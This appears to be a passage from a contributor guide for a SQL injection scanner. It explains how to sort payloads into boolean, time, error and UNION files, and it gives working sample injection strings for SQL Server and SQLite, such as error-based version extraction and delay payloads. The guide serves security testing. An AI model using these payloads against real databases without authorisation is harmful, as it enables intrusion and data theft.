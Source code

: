 ### 1. Test Your Payloads
Before adding many payloads, test a few manually to ensure they work.

### 2. Categorize Properly
Put payloads in the correct file:
- **boolean_payloads.txt**: True/false condition tests
- **time_payloads.txt**: Delay-based tests  
- **error_payloads.txt**: Error message generation
- **union_payloads.txt**: UNION SELECT tests

### 3. Document Your Payloads
Use comments to explain complex payloads:

```
# This payload attempts to extract database version via error
' AND 1=CONVERT(int,(SELECT @@version))--

# This payload tests for table existence
' AND EXISTS(SELECT 1 FROM users)--
```

### 4. Start Simple, Go Complex
Order your payloads from simple to complex in the file for better efficiency.

### 5. Remove Ineffective Payloads
If certain payloads never work, remove them to speed up scans.

## Example Workflow

### Adding Payloads for a New Database

1. **Research the database's SQL syntax**
2. **Create test payloads**
3. **Add to appropriate files with comments**

```bash
# Example: Adding SQLite payloads

# For boolean_payloads.txt
echo "# SQLite Boolean Tests" >> payloads/boolean_payloads.txt
echo "' OR '1'='1" >> payloads/boolean_payloads.txt
echo "' AND ROWID>0--" >> payloads/boolean_payloads.txt

# For time_payloads.txt  
echo "# SQLite Time Tests" >> payloads/time_payloads.txt
echo "' AND randomblob(100000000)--" >> payloads/time_payloads.txt

# For error_payloads.txt
echo "# SQLite Error Tests" >> payloads/error_payloads.txt
echo "' AND CAST('abc' AS INTEGER)--" >> payloads/error_payloads.txt
```
